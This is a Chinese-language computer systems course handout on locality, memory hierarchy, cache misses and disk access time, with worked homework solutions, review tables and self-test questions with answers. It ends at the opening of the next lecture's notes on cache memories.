研讨题 2：局部性原理和高速缓存#
2（1）基于课件第 53 页概念和 54 页程序代码，按指令、数据和时间、空间局部性两个维度进行对应分析。
两种局部性的定义见 12.11 节。对课件 p.54 的求和循环，两个维度交叉成四格（表 18）。
表 18 求和循环的局部性：引用对象 × 局部性类型
| 时间局部性 | 空间局部性 | |
|---|---|---|
| 数据 | 变量 sum 在每次迭代中都被读写（如果编译器把它放在寄存器里，就不再有内存访问） | 数组元素 a[0]、a[1]、……按地址递增依次访问，步长为 1 |
| 指令 | 循环体的几条指令每次迭代都重复执行，共执行 n 次 | 循环体内的指令按顺序存放、按顺序取出 |
需要注意的有两点。其一，a[i] 只有空间局部性、没有时间局部性：每个元素只被访问一次，之后再也不用。其二，变量 i 和 n 也有时间局部性，但它们通常被编译器分配到寄存器中，不产生内存访问；讨论局部性时关注的是真正落到存储器层次上的访问。把这段 C 代码编译成汇编（第 5 讲的循环翻译）就能看到：循环体只有四五条指令，每轮都执行同一段地址，指令的时间局部性和空间局部性都极好，这也是 L1 指令缓存命中率通常很高的原因。
2（2）基于课件第 55～56 页的程序代码，画出二维数组在内存里的存放示意图，在此基础上解读程序对数组的访问操作，分析局部性原理的体现方式。
存放示意图见 12.11 节图 12：C 语言按行优先存放，int a[M][N] 在内存中依次是第 0 行的 N 个元素、第 1 行的 N 个元素……，a[i][j] 的地址为 a + (i·N + j)·4。图中用三种底色区分三行，红色数字标出两种遍历次序下每个元素第几次被访问。
sum_array_rows（p.55）外层是 i、内层是 j，访问次序 a[0][0], a[0][1], …, a[0][N−1], a[1][0], …，与存放次序完全一致，步长为 1，空间局部性好：64 字节的块载入后，其中 16 个 int 依次被用到，不命中率约为 1/16。sum_array_cols（p.56）外层是 j、内层是 i，访问次序 a[0][0], a[1][0], …, a[M−1][0], a[0][1], …，相邻两次访问相隔 N·4 字节，步长为 N，空间局部性差：每次访问都落到一个新块上，等内层循环转一圈回到第 0 行取 a[0][1] 时，那个块往往已经被替换出缓存了。两个函数中 sum 都有很好的时间局部性，指令的局部性也相同，区别只在数组 a 的空间局部性上。
实际测量也印证了这一点（表 8）：4096 × 4096 的数组，按列遍历比按行遍历慢约 25 倍。课件说“除非 M 非常小”，12.11 节的常见问题用模拟器给出了它的确切含义：一列涉及的 M 个块必须能同时留在缓存中；在 48 KB 的 L1 中，N = 1000 时 M 不超过 768 即可，而 N = 1024 时 M 超过 12 就会因冲突而每次都不命中。
2（3）基于课件第 57 页的程序代码，画出多维数组在内存里的存放示意图，在此基础上解读程序对数组的访问操作，分析局部性原理的体现方式。
三维数组同样按行优先存放，可以看作“二维平面的数组”：a[x][y][z] 先按 x 排列各个平面，每个平面内按 y 排列各行，每行内按 z 排列元素，地址为 a + ((x·N + y)·N + z)·4（这里按 M = N 讨论，课件声明的问题见 12.11 节的⚠方框）。以 N = 2 的 int a[2][2][2] 为例，表 19 列出 8 个元素的存放次序，以及两种循环次序下各元素第几次被访问。
表 19 int a[2][2][2] 的存放次序与两种循环次序下的访问顺序（数字为第几次被访问）
| 元素（按存放次序） | 字节偏移 | 课件次序：i、j、k 循环 | 改进次序：k、i、j 循环 |
|---|---|---|---|
| a[0][0][0] | 0 | 1 | 1 |
| a[0][0][1] | 4 | 3 | 2 |
| a[0][1][0] | 8 | 5 | 3 |
| a[0][1][1] | 12 | 7 | 4 |
| a[1][0][0] | 16 | 2 | 5 |
| a[1][0][1] | 20 | 4 | 6 |
| a[1][1][0] | 24 | 6 | 7 |
| a[1][1][1] | 28 | 8 | 8 |
课件次序下，按访问顺序排出的偏移是 0, 16, 4, 20, 8, 24, 12, 28：内层循环变量 k 是最左边的下标，每次 k 加 1 就跳过一整个平面（N·N·4 字节），步长为 N2。改成外层 k、中层 i、内层 j 后，访问顺序就是 0, 4, 8, …, 28，步长为 1。规律是：最右边的下标变化最快，循环嵌套的次序应当与下标从左到右的次序一致。课件的答案“make j the inner loop”说的就是这一点；j 放到最内层之后，i 与 k 中谁在外层也有讲究——k 在最外层才能使相邻两次内层循环访问的也是相邻的行，否则中间层仍有大跨度。实测（表 8）256 × 256 × 256 的数组，课件次序约 18 ms，k、i、j 次序约 5.4 ms。
2（4）对照课件第 50 页的发展趋势图，讲解课件第 60 页的存储层次结构出现的原因和解决的问题。
课件 p.50 的趋势图（重画为 12.10 节图 11，数据见表 5、表 6）显示了三件事：CPU 的有效周期 30 年缩短了约 2000 倍，而 DRAM 访问时间只缩短 10 倍、磁盘只缩短 25 倍，CPU 与存储器的速度差距越拉越大；与此同时，存储器的容量和每字节价格进步飞快，做大、做便宜容易，做快难；更快的技术（SRAM）每字节贵约 100 倍，而且功耗大，不可能用它做出几十 GB 的主存。
存储器层次结构（课件 p.60，图 13）正是针对这一矛盾的解决方案。原因可以概括为课件 p.58 的三条性质：快的存储器小而贵，大的存储器慢而便宜；CPU 与主存差距在扩大；程序具有局部性。解决的问题是：让程序以接近最上层的速度、接近最下层的单价，使用接近最下层的容量。做法是把存储器分成若干层，每层作为下一层的缓存；由于局部性，绝大多数访问在上层就能命中，只有很少一部分需要付出下层的高延迟。如果 L1 的命中率是 95%、命中时间 4 个周期，不命中时到 L2 取要再加 10 个周期，那么平均访问时间约为 4 + 0.05 × 10 = 4.5 个周期，而不是每次都付出访问主存的一两百个周期。随着 CPU 与存储器的差距扩大，层次也在加深：从 1980 年代没有片上缓存，到 1990 年代的 L1、L2，再到今天普遍的三级缓存。
2（5）选一款当前主流的个人计算机，对照课件第 60 页的存储层次结构，将每层存储对应的容量标注出来。
选取一台以 AMD Ryzen 7 9700X（Zen 5 架构，8 核 16 线程，4 nm 工艺）为处理器的台式机，配 32 GB DDR5-5600 内存（2 条 16 GB）和 1(9) 中的三星 990 PRO 2 TB 固态盘作系统盘，再加一块大容量机械硬盘存放资料。按课件 p.60 的层次标注如表 20。
表 20 一台主流台式机的存储器层次（处理器规格来自 AMD 官方数据；延迟为量级，随测试方法不同而变化）
| 层次 | 容量 | 访问延迟（量级） | 介质 |
|---|---|---|---|
| L0 寄存器 | 每核 16 个 64 位通用寄存器 + 32 个 512 位向量寄存器（体系结构可见部分） | 0 周期 | 触发器/寄存器文件 |
| L1 缓存 | 每核 48 KB 数据 + 32 KB 指令，8 核共 640 KB | 约 4～5 周期 | SRAM |
| L2 缓存 | 每核 1 MB，共 8 MB | 约 14 周期 | SRAM |
| L3 缓存 | 32 MB，8 核共享 | 约 50 周期 | SRAM |
| L4 主存 | 32 GB（DDR5-5600，双通道） | 约 80～100 ns（数百周期） | DRAM |
| L5 本地二级存储 | 2 TB SSD + 数 TB～20 余 TB 机械硬盘 | SSD 几十 μs；硬盘约 10 ms | NAND 闪存 / 磁盘 |
| L6 远程二级存储 | 网盘、Web 服务器，容量近乎无限 | 几十～几百 ms（网络往返） | 远程服务器的磁盘 |
从上到下，容量从几百字节增长到几十 TB，跨越约 11 个数量级；延迟从 0 增长到几百毫秒，也跨越 9 个数量级以上。两个细节值得注意：一是 L1、L2 是每核私有的，L3 是多核共享的，这与课件 p.60 的单核图景不同；二是表中寄存器只算了程序员可见的体系结构寄存器，处理器内部为了乱序执行还有数百个物理寄存器（第 11 讲 11.16 节）。
2（6）基于课件第 62～64 页，讲解 Cache 的基本操作。
缓存的基本原理 12.13 节已经讲过（图 14）：下层存储器被划分为大小相同的块，缓存中存放其中一部分块的副本，数据总是以块为单位在两层之间复制。程序访问某个数据时，先查看它所在的块是否在缓存中：在，就是命中，直接从缓存读取（课件 p.63，请求块 14，命中）；不在，就是不命中，要从下层取出整个块放入缓存，再供程序使用（课件 p.64，请求块 12）。不命中时有两个决定要做：放置策略决定新块可以放到缓存的哪个（些）位置；如果这些位置都已被占用，替换策略决定替换掉哪一块（被替换的块称为牺牲块，课件 p.64 中块 9 被块 12 替换）。之所以以块为单位而不是以字为单位传送，是为了利用空间局部性：取一个字时把它的邻居一并取上来，接下来访问邻居时就能命中；同时，以块为单位也摊薄了每次下层访问的固定开销（DRAM 的行激活、磁盘的寻道和旋转）。
2（7）基于课件第 65 页，解读 Cache Miss 的三种情况。
三类不命中的区别见 12.13 节表 9与常见问题，这里再归纳一遍。冷不命中发生在缓存为空时：第一次访问某块必然不命中，与缓存大小和组织方式都无关，只能靠预取来隐藏。冲突不命中的原因是放置策略限制了块可放的位置（课件的例子是块 i 只能放在位置 i mod 4），多个频繁访问的块映射到同一位置，互相驱逐；缓存其余位置即使空着也无济于事。课件“访问块 0、8、0、8……每次都不命中”的模拟结果是：直接映射时 6 次全部不命中，换成同容量的全相联缓存后只有前 2 次冷不命中。容量不命中则是因为工作集比缓存大，无论怎样放置都装不下，例如在 4 个块的缓存上循环访问块 0～4，全相联加 LRU 时每次都不命中。区分冲突与容量的标准方法是与同容量的全相联缓存对比：全相联也会不命中的是容量不命中，全相联能命中的是冲突不命中。12.11 节的二维数组按列遍历给出了两类不命中在真实程序中的例子。
第三部分 作业题解答：6.23、6.24#
两道作业题都用 12.7 节的磁盘访问时间公式：T_access = T_avg_seek + T_avg_rotation + T_avg_transfer，其中平均旋转延迟是转半圈的时间，平均传送时间是转一圈的时间除以每磁道扇区数。题目数据按中文版（第 451 页）；英文国际版（Global Edition）的数字不同，在每题末尾另外给出，所有数值都由脚本核对。
6.23 估计访问一个扇区的平均时间#
6.23估计访问下面这个磁盘上扇区的平均时间（以 ms 为单位）：旋转速率 15 000 RPM；T_avg_seek = 4 ms；平均扇区数/磁道 = 800。
先算转一圈的时间：T_max_rotation = 60 s / 15 000 = 4 ms。按公式逐项计算（表 21）。
表 21 作业 6.23 的计算（中文版数据）
| 分量 | 计算 | 结果 |
|---|---|---|
| 平均寻道时间 | 题目给定 | 4 ms |
| 平均旋转延迟 | 1/2 × 4 ms | 2 ms |
| 平均传送时间 | 4 ms / 800 | 0.005 ms |
| 平均访问时间 | 4 + 2 + 0.005 | 6.005 ms ≈ 6 ms |
答案约为 6 ms。与课件 p.41 的结论一样，访问时间几乎全部是寻道和旋转延迟，传送时间只占 0.08%；并且寻道时间（4 ms）与平均旋转延迟（2 ms）同一量级，用“2 倍寻道时间”估计（8 ms）偏大，但量级正确。
英文国际版的数据是 12 000 RPM、T_avg_seek = 3 ms、每磁道 500 个扇区：转一圈 5 ms，旋转延迟 2.5 ms，传送 0.01 ms，平均访问时间 3 + 2.5 + 0.01 = 5.51 ms。
6.24 顺序读一个 2 MB 文件：最好情况与随机情况#
6.24假设一个 2 MB 的文件，由 512 字节的逻辑块组成，存储在具有如下特性的磁盘驱动器上：旋转速率 15 000 RPM，T_avg_seek = 4 ms，平均扇区数/磁道 = 1000，表面数 = 8，扇区大小 = 512 字节。假设程序顺序地读文件的逻辑块，一个接一个，并且对第一个块定位读/写头的时间是 T_avg_seek + T_avg_rotation。A. 最好情况：给定逻辑块到磁盘扇区的最好的可能的映射，估计读这个文件需要的最优时间（ms）。B. 随机情况：如果块是随机地映射到磁盘扇区上的，估计读这个文件需要的时间（ms）。
先做准备工作：文件有 2 MB / 512 B = 221 / 29 = 4096 个逻辑块。转一圈的时间 T_max_rotation = 60 s / 15 000 = 4 ms，平均旋转延迟 2 ms，读一个扇区的传送时间 4 ms / 1000 = 0.004 ms。
A. 最好情况。最好的映射是把文件放在连续的扇区上：先占满一条磁道，再接着占同一柱面上其他盘面的磁道。4096 个块需要 4096 / 1000 = 4.096 条磁道；磁盘有 8 个盘面，一个柱面有 8 条磁道，所以整个文件可以放在同一个柱面上，读完一条磁道换下一条时只需电子切换读写头，不必再寻道。于是只在开始时付一次定位代价，之后每条磁道都是读写头下连续转过的扇区：
T = T_avg_seek + T_avg_rotation + 磁道数 × T_max_rotation
= 4 ms + 2 ms + 4.096 × 4 ms
= 6 ms + 16.384 ms
= 22.384 ms ≈ 22.4 ms（教材练习题 6.4 的标准解法也是这样：把读完 n 条磁道的时间算作 n 圈。实际上切换读写头还要零点几毫秒，并可能要再等一点旋转，所以真实值略大，但量级不变。）
B. 随机情况。逻辑块随机地分布在磁盘各处，每读一个块都要重新寻道、等旋转，再传送一个扇区：
每块时间 = T_avg_seek + T_avg_rotation + T_avg_transfer
= 4 ms + 2 ms + 0.004 ms = 6.004 ms
T = 4096 × 6.004 ms = 24 592.384 ms ≈ 24 592 ms ≈ 24.6 s两种情况相差 24 592 / 22.4 ≈ 1100 倍。同一个文件、同样的字节数，仅仅因为在盘上的摆放不同，读出时间从 22 毫秒变成 25 秒——这是“首字节最贵、其余几乎免费”在文件级别的体现。它解释了为什么文件系统要尽量为文件分配连续的块、为什么要做磁盘碎片整理，也解释了为什么 SSD 的出现（没有寻道和旋转）对随机访问的提升如此巨大（研讨题 1（9））。
英文国际版的数据是 18 000 RPM、T_avg_seek = 8 ms、每磁道 2000 个扇区、4 个盘面（文件同为 2 MB、4096 块）：转一圈 3.33 ms，旋转延迟 1.67 ms；最好情况 8 + 1.67 + 2.048 × 3.33 = 16.49 ms；随机情况 4096 × (8 + 1.67 + 0.0017) ≈ 39 602 ms ≈ 39.6 s。
⚠ 注意题目版本
6.23、6.24 在中文版和英文国际版（Global Edition）中的数据不同（见上文）。按哪个版本做题，答案就要按哪个版本的数据算；提交作业前先核对自己手里的教材。本讲义的主体解答按中文版第 451 页的数据。
第四部分 复习速查#
4.1 存储器层次结构一页纸#
表 22 第 12 讲一页纸
| 项目 | 内容 |
|---|---|
| 读事务 movq A,%rax | ① CPU 把 A 放上总线 → ② 主存取出 x 放上总线 → ③ CPU 读入 x 到 %rax |
| 写事务 movq %rax,A | ① CPU 把 A 放上总线，主存等数据 → ② CPU 把 y 放上总线 → ③ 主存读入 y 存到 A |
| SRAM / DRAM | 6 管 / 1 管 1 电容；不刷新 / 要刷新；1× / 10× 访问时间；100× / 1× 价格；缓存 / 主存 |
| DRAM 读超单元 (i,j) | RAS 送行 i → 整行进行缓冲区；CAS 送列 j → 超单元上数据线；行列复用地址引脚 |
| 内存模块 | 8 片 ×8 芯片，地址广播，每片出 1 字节，DRAM k 出第 8k～8k+7 位 |
| SDRAM / DDR | 同步时钟、行地址重用（RAS, CAS, CAS…）；双沿传输，预取 2/4/8 位 |
| 非易失性存储器 | ROM → PROM（写一次）→ EPROM（紫外擦）→ EEPROM（电擦）→ 闪存（按块擦） |
| 磁盘容量 | 字节/扇区 × 扇区/磁道 × 磁道/盘面 × 盘面/盘片 × 盘片数；1 GB = 109 字节 |
| 磁盘访问时间 | T_seek + 1/2 × 60/RPM + (60/RPM)/扇区数；前两项主导，首字节最贵 |
| 顺序读 n 条磁道 | T_seek + T_rotation + n × T_max_rotation（同一柱面内不再寻道） |
| 读磁盘扇区 | CPU 写端口（命令、逻辑块号、主存地址）→ 控制器 DMA 写主存 → 中断 CPU |
| SSD | FTL 映射逻辑块；页读写、块擦除；随机写慢（写放大）；磨损均衡；TBW |
| 局部性 | 时间：最近用过的还会用；空间：附近的会被用；步长 1 最好 |
| 判断循环次序 | 最右下标变化最快；内层循环变量应是最右下标；循环次序 = 下标从左到右的次序 |
| 层次结构 | 第 k 层是第 k+1 层的缓存；成本接近底层、速度接近顶层 |
| 缓存术语 | 块、命中、不命中、放置策略、替换策略、牺牲块、工作集 |
| 三类不命中 | 冷（空缓存，首次访问）；冲突（同一位置互相驱逐）；容量（工作集 > 缓存） |
| 区分冲突与容量 | 对照同容量全相联缓存：全相联能命中 → 冲突；全相联也不命中 → 容量 |
4.2 易错点清单#
表 23 第 12 讲易错点清单
| # | 易错点 | 正确理解 |
|---|---|---|
| 1 | 读内存时数据先于地址上总线 | 读和写都是先地址、后数据；区别只在数据流向 |
| 2 | DRAM 的行地址和列地址同时送 | 用同一组引脚分两次送：先 RAS、后 CAS，省引脚但多一步 |
| 3 | 内存条上 8 颗芯片各存不同地址的数据 | 8 颗芯片同一个超单元地址 (i,j)，各存一个 64 位字中的一个字节 |
| 4 | SRAM 不需刷新所以不耗电 | 不需刷新是因为双稳态电路，但只要断电数据仍会丢失，SRAM 也是易失性的 |
| 5 | 平均旋转延迟是转一圈的时间 | 是半圈：1/2 × 60/RPM；转一圈的时间叫最大旋转延迟 |
| 6 | 传送时间 = 60/RPM | 还要除以每磁道扇区数：转过一个扇区的时间 |
| 7 | 磁盘容量 1 GB = 230 字节 | 磁盘厂商按 109；操作系统常按 230，所以显示的容量偏小 |
| 8 | 顺序读文件的最好情况每块都要寻道 | 只在开头寻道、等旋转一次，之后每条磁道算一整圈 |
| 9 | SSD 随机读写都比顺序快 | SSD 也是顺序快于随机，随机写最慢（擦除与写放大） |
| 10 | 求和循环中 a[i] 有时间局部性 | 每个元素只访问一次，只有空间局部性；sum 有时间局部性 |
| 11 | 按列遍历只是“慢一点” | 4096 × 4096 实测慢约 25 倍；行长为 2 的幂时还会引发冲突不命中 |
| 12 | 三维数组把 k 放内层就行 | 要看 k 是不是最右边的下标；a[k][i][j] 应以 j 为内层，次序 k、i、j |
| 13 | 缓存未满就不会不命中 | 冲突不命中正是在缓存有空位时发生的（0、8、0、8 的例子） |
| 14 | LRU 总是最好的替换策略 | 循环访问比缓存稍大的工作集时，LRU 每次都不命中 |
| 15 | 缓存只指 CPU 里的 L1、L2、L3 | 缓存思想遍布各层：TLB、页、缓冲区缓存、磁盘缓存、浏览器缓存、Web 缓存 |
| 16 | “静态 RAM”断电也不丢数据 | 静态指通电期间不需要刷新；SRAM 断电后内容同样丢失，它是易失性存储器 |
| 17 | 中断会在一条指令执行到一半时打断 CPU | 中断是硬件信号，CPU 在指令边界才响应，被打断的程序察觉不到 |
4.3 术语对照#
表 24 第 12 讲术语中英对照
| 中文 | 英文 | 一句话解释 |
|---|---|---|
| 总线事务 | bus transaction | CPU 与主存之间的一次完整的地址、数据传送 |
| 静态 / 动态随机访问存储器 | SRAM / DRAM | 双稳态电路存位 / 电容存位，后者要刷新 |
| 超单元 | supercell | DRAM 芯片中一次读出的 w 位单元，按 (行, 列) 编址 |
| 行 / 列访问选通 | RAS / CAS | DRAM 分两步送出的行地址与列地址 |
| 内存模块 | memory module (DIMM) | 多片 DRAM 并行组成 64 位数据通路的电路板 |
| 同步 DRAM / 双倍数据速率 | SDRAM / DDR SDRAM | 时钟驱动的 DRAM / 时钟双沿传输的 SDRAM |
| 只读存储器 | ROM、PROM、EPROM、EEPROM | 非易失性存储器的各类，按擦写方式区分 |
| 固件 | firmware | 存在 ROM/闪存中的程序，如 BIOS |
| 盘片、盘面、磁道、扇区、柱面 | platter, surface, track, sector, cylinder | 磁盘的几何结构单位 |
| 记录区 | recording zone | 扇区数相同的一组相邻磁道 |
| 寻道时间 / 旋转延迟 / 传送时间 | seek / rotational latency / transfer time | 磁盘访问时间的三个分量 |
| 逻辑块 | logical block | 磁盘对操作系统呈现的扇区大小的编号块 |
| 内存映射 I/O | memory-mapped I/O | 用普通内存地址访问设备端口 |
| 直接内存访问 | DMA | 设备不经 CPU 直接读写主存 |
| 闪存翻译层 | flash translation layer (FTL) | SSD 中把逻辑块映射到闪存页的固件 |
| 磨损均衡 / 写放大 | wear leveling / write amplification | 分摊擦除 / 内部写入量多于用户写入量 |
| 局部性 | locality（temporal / spatial） | 程序访问在时间、地址上的集中性 |
| 步长 | stride | 相邻两次访问相隔的元素个数 |
| 存储器层次结构 | memory hierarchy | 每层作为下一层缓存的多级存储组织 |
| 块 / 缓存行 | block / cache line | 层间传送的单位 |
| 命中 / 不命中 | hit / miss | 所需块在 / 不在本层 |
| 放置策略 / 替换策略 | placement / replacement policy | 新块放在哪 / 替换哪一块 |
| 牺牲块 | victim | 被替换出缓存的块 |
| 冷 / 冲突 / 容量不命中 | cold / conflict / capacity miss | 不命中的三种原因 |
| 工作集 | working set | 程序某阶段反复访问的块的集合 |
第五部分 自测题#
以下题目为新编，磁盘数值由脚本计算核对，缓存命中与不命中由按“组相联 + LRU”编写的模拟器统计。答案在本部分末尾。
1．一片 1024 × 8 的 DRAM 芯片，超单元排成 32 × 32 的矩阵。（a）地址引脚至少要几根？如果不分行列、一次送完整地址，要几根？（b）用 SDRAM 的方式连续读出同一行中的 4 个超单元，需要几次 RAS、几次 CAS？
2．一条内存模块由 8 片 1G × 8 的 DRAM 组成（与课件 p.19 结构相同）。（a）模块的容量是多少？（b）CPU 读主存地址 A（A 是 8 的倍数）处的 64 位字时，地址 A + 5 处的那个字节来自哪一片芯片、占 64 位字的第几位到第几位？（c）为什么读这个 64 位字和读一个字节用的时间相同？
3．一个磁盘有 4 张盘片，每个盘面 50 000 条磁道，每条磁道平均 400 个扇区，每个扇区 512 字节。按磁盘厂商的单位，它的容量是多少 GB？
4．一个磁盘的转速为 10 000 RPM，平均寻道时间 5 ms，每磁道平均 500 个扇区。估计访问一个扇区的平均时间。
5．一个 1.5 MB 的文件由 512 字节的逻辑块组成，存放在转速 7200 RPM、平均寻道时间 8 ms、每磁道 1024 个扇区、4 个盘面的磁盘上。按作业 6.24 的假设，分别估计最好情况和随机情况下顺序读完整个文件的时间。
6．下面的函数以步长 k 访问一个很大的 int 数组（远大于缓存）。缓存块大小为 64 字节。k 分别为 1、4、8、16 时，对数组 a 的不命中率约为多少？
long sum_stride(int *a, long n, long k)
{
long s = 0;
for (long i = 0; i < n; i += k)
s += a[i];
return s;
}7．改写下面的循环次序，使它以步长 1 访问数组，并说明理由。
int sum3(int a[N][N][N])
{
int i, j, k, sum = 0;
for (i = 0; i < N; i++)
for (j = 0; j < N; j++)
for (k = 0; k < N; k++)
sum += a[j][k][i];
return sum;
}8．一个缓存共有 4 个块的位置。程序依次访问块 1、5、1、2、5、9、1。（a）如果放置策略是“块 i 放在位置 i mod 4”，逐次写出命中（H）或不命中（M），并指出每次不命中的类型。（b）如果改为全相联、LRU 替换，结果如何？
9．某机器的 L1 数据缓存为 48 KB，块大小 64 字节，LRU 替换。程序把一个 int 数组从头到尾顺序扫描 3 遍。数组大小为 32 KB 和 64 KB 时，第 1 遍和第 2、3 遍的不命中率各是多少？第 2、3 遍的不命中属于哪一类？
10．根据课件 p.66 的表回答：（a）为什么越靠下的层次，缓存的单位（块）越大？（b）为什么 L1、L2 缓存由硬件管理，而 Web 缓存由软件（代理服务器）管理？
自测题答案#
1．（a）32 × 32 的矩阵需要 5 位行地址和 5 位列地址，分两次在同一组引脚上送，至少 5 根；一次送完整地址需要 10 位，即 10 根。（b）1 次 RAS（把这一行读进行缓冲区），4 次 CAS（每次从行缓冲区取一个超单元），即课件 p.14 所说的“RAS, CAS, CAS, CAS, CAS”。
2．（a）每片 1G × 8 位 = 1 GB，8 片共 8 GB。（b）64 位字中的字节 k 来自 DRAM k；A + 5 是第 5 个字节，来自 DRAM 5，占第 40～47 位。（c）内存控制器把同一个超单元地址 (i, j) 同时广播给 8 片芯片，8 片并行读出、各出 8 位，所以 64 位一次就位，时间等于一片芯片读一个超单元的时间。
3．4 张盘片有 8 个盘面。容量 = 512 × 400 × 50 000 × 2 × 4 = 81 920 000 000 字节 = 81.92 GB（1 GB = 109 字节）。
4．转一圈 60 / 10 000 s = 6 ms。平均旋转延迟 3 ms，平均传送时间 6 ms / 500 = 0.012 ms，平均访问时间 = 5 + 3 + 0.012 = 8.012 ms ≈ 8 ms。
5．文件有 1.5 × 220 / 512 = 3072 块，正好 3072 / 1024 = 3 条磁道。转一圈 60 / 7200 s = 8.33 ms，平均旋转延迟 4.17 ms。最好情况：3 条磁道在同一柱面（共 4 条磁道）内，T = 8 + 4.17 + 3 × 8.33 = 37.17 ms。随机情况：每块 8 + 4.17 + 8.33/1024 ≈ 12.175 ms，T = 3072 × 12.175 ≈ 37 401 ms ≈ 37.4 s，约为最好情况的 1000 倍。
6．一个 64 字节的块装 16 个 int。步长为 k 时，每块只用到 16/k 个元素（k ≤ 16），只有每块的第一次访问不命中，不命中率 = k/16：k = 1 时 6.25%，k = 4 时 25%，k = 8 时 50%，k = 16 时 100%（每次访问都落在新块上）。模拟器结果相同；k 再增大，不命中率仍是 100%，但访问的元素变少了。
7．引用的是 a[j][k][i]，最右边的下标是 i，应作内层循环；中间的下标 k 作中层；最左边的 j 作外层。循环次序改为 j、k、i：
for (j = 0; j < N; j++)
for (k = 0; k < N; k++)
for (i = 0; i < N; i++)
sum += a[j][k][i];理由：行优先存放时最右边的下标变化最快，i 加 1 地址加 4 字节；原代码以 k 为内层，每次跳过一行（N·4 字节），以 i 为外层更是每次跳过一整个平面。
8．（a）位置：块 1、5、9 都映射到位置 1，块 2 映射到位置 2。结果为 M M M M M M M，7 次全部不命中：块 1 第一次（冷）、块 5 第一次（冷，驱逐 1）、块 1（冲突：其余 3 个位置大部分空着，1 却被 5 驱逐了）、块 2（冷）、块 5（冲突，刚被 1 驱逐）、块 9（冷）、块 1（冲突）。（b）全相联、LRU：M M H M H M H，4 次不命中全部是冷不命中（1、5、2、9 各一次），因为只用到 4 个不同的块，正好装得下。对比说明 (a) 中的 3 次冲突不命中完全是放置策略造成的。
9．第 1 遍：两种大小都是冷不命中，每块的第一个 int 不命中，不命中率 1/16 = 6.25%。32 KB 的数组：第 2、3 遍不命中率 0，整个数组（512 块）都留在 48 KB（768 块）的缓存中。64 KB 的数组：第 2、3 遍不命中率仍为 6.25%——工作集 1024 块大于缓存的 768 块，顺序循环加 LRU 使得每块在再次被用到之前都已被替换，这是容量不命中。
10．（a）越靠下的层次访问延迟越大，其中大部分是与传送数据量无关的固定开销（DRAM 的行激活、磁盘的寻道和旋转、网络的往返），一次多搬一些数据才能把固定开销摊薄；同时块大可以更充分地利用空间局部性。所以 L1/L2 用 64 字节的块，虚拟内存用 4 KB 的页，再往下是整个文件或网页。（b）L1、L2 的命中时间只有几个周期，查找和替换必须在这么短的时间内完成，只能用简单、固定的硬件电路，而且对程序透明；Web 缓存的不命中代价是 109 个周期量级，花几千、几万个周期运行复杂的软件策略（全相联查找、按访问频率和过期时间替换）来减少不命中是完全划算的。层次越往下，越值得用“聪明但慢”的管理方式。
—— 第 12 讲讲义完 ——
计算机系统导论（ICS）
复习讲义 · 第 13 讲
高速缓存存储器（Cache Memories）
如何使用本讲义#
第 12 讲把缓存当作一个抽象的概念：上一层存放下一层的一部分块，访问时先在上一层里找，找到是命中，找不到是不命中。本讲把这个抽象落到硬件上，回答三组问题。第一组是组织与操作（13.1–13.9 节）：一块高速缓存（cache）由哪些部分组成，硬件拿到一个地址后怎样在一两个时钟周期内判断命中与否、取出数据；直接映射、组相联、全相联三种组织方式的差别；写操作怎样处理；为什么用地址的中间几位作组索引；一颗真实的处理器上各级缓存是什么规格；衡量缓存性能的三个指标。第二组是缓存对程序性能的影响（13.10–13.12 节）：用“存储器山”一张图看清一台机器的整个存储系统；矩阵乘法的六种循环次序为什么快慢相差数倍；分块为什么能把不命中次数降一个数量级。第三组是做题方法（13.13 节专题）：给出一段代码和缓存参数，怎样一步步算出命中、不命中和不命中率——这是研讨题、作业和考试最常见的题型。
本讲的数值都由程序核对过。课件中的模拟（p.13、p.17）、地址划分（p.29）、平均访问时间（p.31）以及专题和自测题中的所有命中/不命中，都用按“组相联 + LRU”编写的模拟器逐次统计；存储器山和矩阵乘法的快慢在默认环境的真实机器上测得，并给出了机器参数。课件有几处小笔误，用橙色方框指出。
表 1 第 13 讲内容地图
| 课件部分 | 核心问题 | 本讲义小节 |
|---|---|---|
| 回顾（p.2–8） | 局部性、层次结构、三类不命中 | 13.1 |
| 缓存的组织（p.9、p.18、p.20） | (S, E, B, m) 四个参数；地址怎样分成标记、组索引、块偏移 | 13.2 |
| 直接映射（p.10–13） | 一次读的三步；逐次模拟 | 13.3 |
| 组相联与全相联（p.14–17） | 组内多行同时比较；替换策略；逐次模拟 | 13.4 |
| S、E、B 必须是 2 的幂吗（p.19） | 哪些必须、哪些不必；真实处理器的例子 | 13.5 |
| 写策略（p.21–22） | 直写与写回、写分配与非写分配 | 13.6 |
| 为什么用中间位作索引（p.23–26） | 中间位与高位索引对顺序访问的影响 | 13.7 |
| Core i7 的缓存（p.27–29） | 真实的层次结构；地址划分练习 | 13.8 |
| 性能指标（p.30–32） | 不命中率、命中时间、不命中处罚；平均访问时间 | 13.9 |
| 存储器山（p.34–37、p.63–67） | 读吞吐量怎样随工作集和步长变化 | 13.10 |
| 循环次序（p.39–49） | 矩阵乘法六种次序的不命中分析与实测 | 13.11 |
| 分块（p.51–57） | 分块为什么能利用时间局部性；不命中次数的推导 | 13.12 |
| 讲义专题 | 给定代码与缓存参数，算不命中率 | 13.13 |
| 本讲小结（p.58） | 全讲回顾与第 14 讲预告 | 13.14 |
说明：2026 版课件的变化与研讨题页码
本讲义依据 2026 版课件（67 页）。与 2025 版（65 页）逐页比对，主要变化有三处：p.19 是新增的一页设问“Can S/E/B not be the power of 2s?”，页面上没有答案，本讲义在 13.5 节专门回答；p.36 是新增的存储器山测试函数简化版（不做循环展开）；p.8 把三类不命中的顺序改为冷、容量、冲突，冷不命中的定义改为“缓存一开始是空的，并且这是对该块的第一次访问”，p.10–16 的副标题改为“每个内存块映射到一个（或 E 个）缓存行”。其余各页内容相同。p.59–67 是补充页（Supplemental slides）。
需要特别注意的是，研讨题沿用 2025 版的页码，换算规则是：2025 版 p.x 在 x ≤ 18 时就是 2026 版 p.x；19 ≤ x ≤ 34 时对应 2026 版 p.(x+1)；x ≥ 35 时对应 2026 版 p.(x+2)。例如研讨题 1（5）的“第 18～19 页”是 2026 版 p.18 和 p.20，研讨题 2（1）的“第 34、35 页”是 2026 版 p.35（及新增的 p.36）和 p.37。第二部分每道题的开头都注明了对应的 2026 版页码。
第一部分 第 13 讲知识点：高速缓存存储器#
13.1 回顾：局部性、层次结构与三类不命中（课件 p.2–8）#
